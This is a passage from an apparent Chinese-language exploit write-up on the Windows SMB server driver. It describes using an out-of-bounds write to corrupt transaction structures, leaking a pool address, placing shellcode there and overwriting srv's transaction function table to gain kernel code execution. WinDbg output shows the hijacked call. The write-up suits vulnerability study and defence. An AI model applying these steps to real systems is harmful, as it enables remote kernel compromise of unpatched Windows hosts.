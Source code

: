 ```c
0005ad40  00000000 00000040 00000000 00000000
0005ad50  00000101 08000000 0800cee6 0000004b
```
这里通过`write_transaction`越界 写 `leak_transaction->OutParameters`为NULL, 然后发包触发写`leak_transaction`操作，之后`leak_transaction->OutParameters`便为一 Npp Buffer值了。
##### 5.1.2.2 leak_transaction->OutData = &leak_transaction->OutParameters
这里要事先泄露leak_transaction的基址，其实也不难，通过读leak_transaction的OutData 或 OutParameters 或 InData 字段的值再减去一定的偏移便得到了基址，使`leak_transaction->OutData = &leak_transaction->OutParameters`之后，发包触发leak_transaction读操作便将该Npp buffer地址泄露出来了。
##### 5.1.2.3 写shellcode到Npp Buffer
将`control_transaction->OutData`设为`Npp Buffer+0x100`地址，然后发包发送shellcode，便将shellcode写到了`Npp Buffer+0x100`内。
### 5.2 代码执行
至此，直接将Npp buffer+0x100写到之前泄露出来的函数表里
```c
kd> dds b76d8598
b76d8598  b7709683 srv!SrvSmbOpen2
b76d859c  b76f62a8 srv!SrvSmbFindFirst2
b76d85a0  b76f74e5 srv!SrvSmbFindNext2
b76d85a4  b76f6309 srv!SrvSmbQueryFsInformation
b76d85a8  b7707293 srv!SrvSmbSetFsInformation
b76d85ac  b77041ad srv!SrvSmbQueryPathInformation
b76d85b0  b7703ce7 srv!SrvSmbSetPathInformation
b76d85b4  b77025ad srv!SrvSmbQueryFileInformation
b76d85b8  b770367f srv!SrvSmbSetFileInformation
b76d85bc  b7705c85 srv!SrvSmbFsctl
b76d85c0  b7706419 srv!SrvSmbIoctl2
b76d85c4  b7705c85 srv!SrvSmbFsctl
b76d85c8  b7705c85 srv!SrvSmbFsctl
b76d85cc  b77047bb srv!SrvSmbCreateDirectory2
b76d85d0  8993fb28
b76d85d4  b7709a51 srv!SrvTransactionNotImplemented
b76d85d8  b76fb144 srv!SrvSmbGetDfsReferral
b76d85dc  b76faf7e srv!SrvSmbReportDfsInconsistency
b76d85e0  00000000
```
之后发包就能触发该函数调用：
```c
kd> k
 # ChildEBP RetAddr  
WARNING: Frame IP not in any known module. Following frames may be wrong.
00 b72b4cf0 b76e8d76 0x8993fb28
01 b72b4d04 b76e341f srv!ExecuteTransaction+0xdb
02 b72b4d7c b76ca836 srv!SrvSmbTransaction+0x7ac
03 b72b4d88 b76dad98 srv!SrvProcessSmb+0xb7
04 b72b4dac 805c6160 srv!WorkerThread+0x11e
05 b72b4ddc 80541dd2 nt!PspSystemThreadStartup+0x34
06 00000000 00000000 nt!KiThreadStartup+0x16
```
